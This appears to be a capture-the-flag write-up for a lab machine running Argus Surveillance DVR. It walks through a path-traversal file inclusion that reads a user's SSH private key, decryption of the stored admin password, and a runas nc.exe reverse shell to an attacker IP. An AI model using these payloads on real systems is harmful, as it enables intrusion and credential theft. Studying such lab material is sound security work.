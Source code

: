 # DVR4 -  Writeup
## Initial Enumeration
### Port Scanning
The target has several open ports, with the most interesting being port 8080 where a web server is running.
### Web Server Enumeration (Port 8080)
Initial directory discovery revealed several web pages related to a camera system:
```
200 GET    42l    88w  1198c http://192.168.185.179:8080/pda/Cameras.html
200 GET    42l    88w  1187c http://192.168.185.179:8080/pda/cam80x60.html
200 GET    75l   218w  2349c http://192.168.185.179:8080/CamerasBottomFrame.html
200 GET    82l   245w  2706c http://192.168.185.179:8080/ActiveXIFrame.html
200 GET   655l  1718w 29575c http://192.168.185.179:8080/CamerasTopFrame.html
200 GET    23l    73w   985c http://192.168.185.179:8080/
200 GET    45l    92w  1256c http://192.168.185.179:8080/pda/cam320x240.html
200 GET    42l    88w  1195c http://192.168.185.179:8080/pda
```
### Local File Inclusion (LFI) Discovery
After testing various endpoints, I discovered a vulnerable LFI parameter on the Cameras.html page:
```
http://192.168.185.179:8080/pda/Cameras.html?RESULTPAGE=../../../../../../../../
```
This allowed for traversing the file system. Extensive LFI testing revealed numerous accessible files including:
- System configuration files
- Windows logs
- User directories
## Exploitation
### Credentials via SSH Key
Using the LFI vulnerability, I was able to view the SSH private key for the "Viewer" user:
```
http://192.168.185.179:8080/pda/Cameras.html?RESULTPAGE=../../../../../../../../Users/Viewer/.ssh/id_rsa
```
I downloaded this key, set appropriate permissions, and logged in via SSH:
```bash
chmod 600 id_rsa
ssh -i id_rsa Viewer@192.168.185.179
```
### Privilege Escalation
#### Information Gathering
After gaining initial access as the Viewer user, I explored the system and identified that the machine was running Argus Surveillance DVR software.
#### Password Decryption
The Argus DVR software uses weak password encryption. Located configuration file containing encrypted credentials:
```
C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini
```
Using publicly available information about Argus DVR's encryption method, I was able to decrypt the administrator password.
#### Administrator Access
With the administrator credentials, I used the runas command to gain a privileged reverse shell:
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
This gave me a reverse shell with SYSTEM privileges, allowing complete control of the machine.

